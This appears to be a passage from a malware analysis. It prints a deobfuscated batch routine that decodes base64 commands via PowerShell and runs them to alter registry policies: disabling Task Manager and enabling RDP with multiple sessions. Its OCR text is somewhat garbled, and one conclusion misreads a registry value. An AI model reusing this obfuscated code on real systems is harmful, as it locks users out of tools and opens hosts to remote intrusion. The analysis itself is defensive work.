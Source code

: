#### Conclusion:
* ":i" is responsible for setting up firewall rules and groups.


### Analysis of deobfuscated ":Azazel"
```bash

cd tempset "string112=UkVHIEFERCBIS0NVXFNvZnR3YXJlXE1pY3Jvc29mdFxXaW5kb3dzXEN1cnJlbnRWZXJzaW9uXFBvbGljaWVzXFN5c3RlbSAvdiAiRGlzYWJsZVJlZ2lzdHJ5VG9vbHMiIC90IFJFR19EV09SRCAvZCAiMCIgL2Y="for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string112"""^)^)') do 
set "decoded112=i"
start /b decoded112 >nul

set "string113=UkVHIEFERCBIS0NVXFNvZnR3YXJlXFBvbGljaWVzXE1pY3Jvc29mdFxXaW5kb3dzXFN5c3RlbSAvdiAiRGlzYWJsZUNNRCIgL3QgUkVHX0RXT1JEIC9kICIwIiAvZg=="for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string113"""^)^)') do 
set "decoded113=i"
start /b decoded113 >nul

set "string114=UkVHIEFERCBIS0VZX0NVUlJFTlRfVVNFUlxTb2Z0d2FyZVxNaWNyb3NvZnRcV2luZG93c1xDdXJyZW50VmVyc2lvblxQb2xpY2llc1xTeXN0ZW0gL3YgIkRpc2FibGVUYXNrTWdyIiAvdCBSRUdfRFdPUkQgL2QgIjEiIC9m"
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string114"""^)^)') do 
set "decoded114=i"
start /b decoded114 >nul

set "string115=UkVHIEFERCAiSEtFWV9MT0NBTF9NQUNISU5FXFNZU1RFTVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlciIgL3YgImZEZW55VFNDb25uZWN0aW9ucyIgL3QgUkVHX0RXT1JEIC9kICIwIiAvZg=="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string115"""^)^)') do 
set "decoded115=i"
start /b decoded115 >nul

set "string116=UkVHIEFERCAiSEtFWV9MT0NBTF9NQUNISU5FXFNZU1RFTVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlciIgL3YgImZTaW5nbGVTZXNzaW9uUGVyVXNlciIgL3QgUkVHX0RXT1JEIC9kICIwIiAvZg=="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string116"""^)^)') do 
set "decoded116=i"start /b decoded116 >nul
timeout /t 3 >nul
goto azazel
```
Decoded base64 strings:
```bash
REG ADD HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v "DisableRegistryTools" /t REG_DWORD /d "0" /f
REG ADD HKCU\Software\Policies\Microsoft\Windows\System /v "DisableCMD" /t REG_DWORD /d "0" /f
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System /v "DisableTaskMgr" /t REG_DWORD /d "1" /f
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d "0" /f
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fSingleSessionPerUser" /t REG_DWORD /d "0" /f
```
#### Conclusion:
* Responsible for disabling registry, cmd ad task manager.
* It is also responsible for setting up the host for RDP connections.
